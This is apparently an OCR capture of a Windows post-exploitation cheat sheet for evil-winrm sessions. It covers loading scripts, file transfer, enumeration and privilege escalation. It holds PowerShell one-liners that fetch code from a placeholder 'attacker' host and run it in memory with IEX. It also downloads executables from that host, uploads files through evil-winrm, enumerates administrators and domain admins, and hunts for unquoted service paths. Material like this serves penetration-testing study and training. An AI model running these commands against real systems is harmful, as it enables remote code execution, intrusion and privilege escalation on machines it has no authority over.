 **Loading scripts:**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1')
```

## File Transfer

**Upload files:**
```
evil-winrm> upload /local/path/file.exe C:\temp\file.exe
```

**Download files:**
```
evil-winrm> download C:\temp\file.txt /local/path/file.txt
```

**Alternative via PowerShell:**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')
(New-Object Net.WebClient).DownloadFile('http://attacker/file.exe', 'C:\temp\file.exe')
```

## Initial Enumeration

**System information:**
```powershell
systeminfo
whoami /all
net user
net localgroup administrators
```

**Network information:**
```powershell
ipconfig /all
netstat -an
arp -a
```

**Domain information (if domain joined):**
```powershell
nltest /domain_trusts
net group "Domain Admins" /domain
```

## Privilege Escalation

**Service enumeration:**
```powershell
Get-Service | Where-Object {$_.Status -eq "Running"}
```

**Check for unquoted service paths:**
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
